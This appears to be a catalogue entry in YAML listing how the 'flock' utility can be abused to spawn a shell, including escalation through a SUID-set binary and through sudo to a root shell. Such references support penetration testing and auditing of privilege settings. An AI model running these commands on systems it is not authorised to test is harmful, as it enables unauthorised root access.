 ```yaml
---
name: flock
functions:
  shell:
    - code: flock -u / /bin/sh
  suid:
    - code: ./flock -u / /bin/sh -p
  sudo:
    - code: sudo flock -u / /bin/sh
---
```

